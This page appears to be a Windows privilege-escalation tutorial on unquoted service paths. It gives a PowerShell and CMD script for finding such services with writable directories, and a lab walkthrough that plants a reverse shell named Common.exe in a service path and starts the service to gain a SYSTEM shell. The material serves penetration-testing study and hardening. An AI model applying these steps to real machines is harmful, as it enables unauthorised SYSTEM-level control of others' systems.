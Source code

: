 # Unquoted Paths

System services are typically executed with high integrity under the SYSTEM account. Additionally, they are often installed by third-party applications that may not adequately account for security measures, leaving potential vulnerabilities that attackers can exploit.

In some cases, services fail to use quotes around the path to the executable, creating a vulnerability that can be exploited by an attacker leveraging the way Windows interprets paths with spaces.

## Services with Unquoted Paths

This script checks all unquoted paths and verifies whether the user can modify any of the directories derived from them based on Windows' typical path interpretation.

> [!NOTE]
> Requires auxiliary function.

```powershell
$vuln = Get-WmiObject -Class win32_service | 
        Where-Object {$_ -and ($Null -ne $_.pathname) -and ($_.pathname.Trim() -ne '') -and (-not $_.pathname.StartsWith("`"")) -and (-not $_.pathname.StartsWith("'")) -and ($_.pathname.Substring(0, $_.pathname.ToLower().IndexOf('.exe') + 4)) -match '.* .*'}
ForEach ($serv in $vuln) {
    $SplitPathArray = $serv.pathname.Split(' ')
    $ConcatPathArray = @()
    for ($i=0;$i -lt $SplitPathArray.Count; $i++) {
        $ConcatPathArray += $SplitPathArray[0..$i] -join ' '
    }
    ModifiablePath $ConcatPathArray
}
```

Alternatively, you can perform a manual check with CMD and `icacls`, though this process is more hands-on.

```batch
:: List all services with unquoted paths
wmic service get name,displayname,pathname,startmode 2>nul | findstr /i "Auto" 2>nul | findstr /i /v "C:\Windows\\" 2>nul | findstr /i /v """

:: Check the permissions of the directory and its subdirectories as Windows interprets them.
icacls [service_path]
```

### Attack

If one of these directories can be modified, place a malicious executable with the name derived from where the path truncates and ending in `.exe`.

## Example

**First, copy and paste to load the auxiliary function.**

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/regPerm_1.png)

Next, copy and paste the suggested script, which searches for all services with unquoted paths and reviews the permissions of the directories leading to them for any vulnerable points.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/unquoted_1.png)

As shown, a service called `unquotedsvc` appears with a directory that has weak permissions. Let's first examine the service information and retrieve the binary path.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/unquoted_2.png)

The path contains several spaces, so we will check the permissions of each directory and subdirectory using **cacls** to find the vulnerable point.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/unquoted_3.png)

We identify a vulnerable subdirectory that grants full permissions to all users on the system. Taking advantage of how Windows parses paths with spaces, we create a reverse shell and place it in the directory `_C:\Program Files\Unquoted Path Service_` with the name `Common.exe`. This ensures that it will be executed without traversing higher directories.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/unquoted_4.png)

Finally, manually start the service with the following command.

```batch
net start unquotedsvc
```

Within seconds, we have a reverse shell connection running as SYSTEM.

![](https://daniel10barredo.github.io/PrivEscAssist_Windows/media/imag/services/unquoted_5.png)
